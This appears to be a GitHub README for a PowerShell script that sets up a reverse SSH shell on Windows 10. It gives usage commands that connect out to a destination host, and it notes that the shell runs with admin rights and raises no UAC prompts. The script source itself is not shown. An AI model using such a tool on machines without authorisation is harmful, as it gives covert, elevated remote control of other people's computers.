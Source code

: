 # lol-reverseSSHell.ps1
Living Off the LAN - Reverse SSHell

This script is intended to make SSH reverse shells easier to initiate on Windows 10. It utilizes OpenSSH Server (instead of NetCat / NCat) to forward a CMD.exe shell. If OpenSSH Server is missing from the Windows 10 host, the script will install it via WindowsCapability / DISM. ( * If OpenSSH server is missing, the script will ask to install it, then download OpenSSH Server from Microsoft.) Then the script will copy the sshd_config file, ssh private key, and authorized_keys files from the repo's root to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS cli/shell. 

* Please generate NEW SSH KEYs. Use the repo's keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost `<IP Address>`
* .\lol-reverseSSHell.ps1 -DestinationUserName aj -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
  - -OR- 
* Double Click .bat file and enter requested information.

Setup Instructions for SSH Keypairs and Help Documentation: 
* get-help .\lol-reverseSSHell.ps1 
* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell.exe:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Windows vs Unix Reverse SSH Shells, & the Interesting Security Implications for Windows Users
-----------------------------------------------------------------------------------------------   
* Admin Privleges - Because the shell is ran using admin privleges, and most Windows users run as privleged users, the shell will have admin privleges without ever needing to know the admin password. After a shell has been initiated, there are no password prompts or UAC alerts to prevent commands from being ran with elevated privleges. Almost equivlent to a root shell in Unix. Which means you can browse the entire file system and modify system files without permissions issues.  

